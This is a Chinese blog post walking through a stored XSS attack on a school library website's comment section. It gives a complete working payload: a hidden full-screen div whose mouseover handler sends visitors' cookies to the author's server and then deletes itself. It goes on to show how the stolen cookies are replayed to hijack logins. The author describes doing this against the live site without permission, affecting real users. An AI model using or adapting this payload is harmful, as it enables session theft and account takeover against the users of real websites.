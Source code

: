 ```yaml
---
title: XSS持久型攻击实例--向学校图书馆网站页面注入JS
date: 2016-04-16 00:28:27
tags:
- xss
- web
- javascript
-categories:
- javascript
---
```


XSS攻击是Web中很常见的攻击，其原理有点类似与SQL注入，改变了原来的执行逻辑。之前了解过一些XSS，但是没有去具体实现，刚刚拿学校的网站做了下XSS攻击，成功的给图书馆网站下了毒+_+...

XSS攻击大概可以分为两种，一种是非持久型攻击，这一般只会影响个体用户，不会造成长期的影响，另一种为持久型攻击，也就是我们要讲的这种，将我们的代码注入到目标服务器页面上，所有访问这个页面的用户都会被攻击。其实之前没有去具体实现因为比较“出名”的网站一般在防XSS上做的比较完善，不好去找漏洞，所以才拿学校网站做测试(以前经常这样干抓数据什么的。。。)，在最后我们实现的是向页面中注入自己的js代码，并将访问该页面用户的cookie信息传到我自己的服务器上。

# 找到漏洞
XSS一般会发生在提交表单或者其他与服务器交互的场景中，然而好像学校网站基本没有可以用户自己回复信息，发布信息什么的，但是记得好像学校图书馆的页面可以评论，就拿这个测试了。

![/images/lib-cqut-1.png](/images/lib-cqut-1.png)

<!--more-->

在这里我测试了几次，前端只是对内容长度进行了过滤，但是没有对内容进行正则匹配非法字符。一开始我直接上script，但是被后端程序处理掉了，看来还是有点点防范的。后面我又试了HTML标签，发现div没有被过滤，开始激动了。。。

# 编写注入程序
这里我们找到了js注入的入口，通过div标签来当跳板，但是如何将js放到里面执行呢？我想到的是通过事件，但是如何来触发事件？div没有onload事件，怎么让div一被加载就执行我们的脚本呢？我用一种比较巧妙的方法来实现了。

通过mouseover事件来触发我们的脚本，那么如何保证事件一定会被触发？我的做法是：
```css
position: absolute; //让插入的div脱离标准文档流
width: 100%; //占满屏幕
height: 100%;
background-color: blue; //给个颜色方便测试
z-index: 1000; //让div提升到最上层，但不能绝对保证
```
我设置了个绝对定位的div，大小为屏幕大小，z-index设置了出现在z轴上的位置，尽量大，基本上在页面上的最顶层了，这样mouseover事件99%会被触发(除非打开页面后你直接用ctrl+w关闭了页面，或者浏览器爆炸，关机)，下面是完整的css样式：
```css
position: absolute;
width: 100%;
height: 100%;
background-color: blue;
filter: alpha(opacity=0);
opacity: 0;
-moz-opacity: 0;
-webkit-opacity: 0;
-ms-opacity: 0;
z-index: 1000;
```
设置了透明度和背景只是为了本地的调试，没有什么用，但是之前测试的时候直接向页面提交了带有颜色的div导致打开那个页面的时候所有用户会出现了一个巨大的蓝色div。。。失误

好了最核心的部分来了，写XSS payload：
```javascript
(function xss() {
    var cookie = 'this is cookie ' + document.cookie,
        img = document.createElement('img'),
        el = document.getElementById('xss');

    img.src = 'http://127.0.0.1/index.php?cookie=' + cookie;
    document.getElementById('xss').parentNode.removeChild(el);

    console.log(cookie);
})();
```
这里是个立即执行函数，首先我们拿到了当前用户的cookie并创建了一个img节点，获得了当前我们插入的xss节点，给img节点设置了src，一旦设置了src后这里就会去请求这个地址。这里我们比较巧妙的使用了GET请求来发送数据，一般情况GET是用来获取数据的，但是我们将用户的cookie当成queryString的值发给了我们本地的服务器。这里只是做了测试，实际中的攻击是用真实的服务器。这样我们服务器接受到请求后，就可以查看服务器的访问日志，里面就会包含具体的GET请求，带了用户cookie。

![/images/lib-cqut-2.png](/images/lib-cqut-2.png)

当时测试时直接用的alert输出，所以在网站的某个页面上，用户访问时会直接弹出一个我插入的alert，包含了当前用户的cookie。。。。失误

最后为了隐蔽我将插入到DOM tree的节点进行了删除，这样又恢复到了正常的状态，但是cookie已经被我们拿走了，通过DIV XSS攻击的完整实现如下：
```javascript
<div id="xss" style="position: absolute;
		width: 100%;
		height: 100%;
		background-color: blue;
		filter: alpha(opacity=0);
		opacity: 0;
		-moz-opacity: 0;
		-webkit-opacity: 0;
		-ms-opacity: 0;
		z-index: 1000;" onmouseover="(function xss() {
			var cookie = 'this is cookie ' + document.cookie,
				img = document.createElement('img'),
				el = document.getElementById('xss');

			img.src = 'http://127.0.0.1/index.php?cookie=' + cookie;
			document.getElementById('xss').parentNode.removeChild(el);

			console.log(cookie);
		})()">
</div>
```
这样我们只要把这段代码回复上去，以后所有访问这个页面的用户就会把自己的cookie发到我们的服务器，下面是实际测试。

# 测试
回复上面的代码，再次访问的时候，控制台悄无声息的输出了当前登陆账户的cookie

![/images/lib-cqut-3.png](/images/lib-cqut-3.png)

那么此时，我们本地服务器也应该会有结果了，看一下

![/images/lib-cqut-4.png](/images/lib-cqut-4.png)

在服务器的访问日志上我们可以清楚的看到刚才访问这个页面的用户的时间，页面所有cookie值，UA信息，那么拿到用户的cookie后有什么用？

# 伪造登陆
cookie是用户的登陆凭据，那么我们拿到用户的cookie后就可以直接登陆啦。我们可以以访客的身份浏览这个页面，然后设置当前页面的cookie值，这里可以用浏览器插件实现，chrome下比如说可以用EditThisCookie插件，免费开源一直在用，挺不错的。然后我们把获取到的cookie填入

![/images/lib-cqut-5.png](/images/lib-cqut-5.png)

这样再次刷新页面，发现我们登陆了。。。。

# 感触
细思恐极，这样一旦XSS攻击成功用户的数据就完全暴露了，这里只是获取了一个cookie，我们完全可以操作DOM搞个登陆框，中奖信息出来，关键是，这个页面还是从你访问的安全站点弹出来的，就算有点安全意识的人也可能防不胜防。最后上面我只是在内网上进行了测试，并没有恶意XSS攻击学校网站，不要查水表。。。
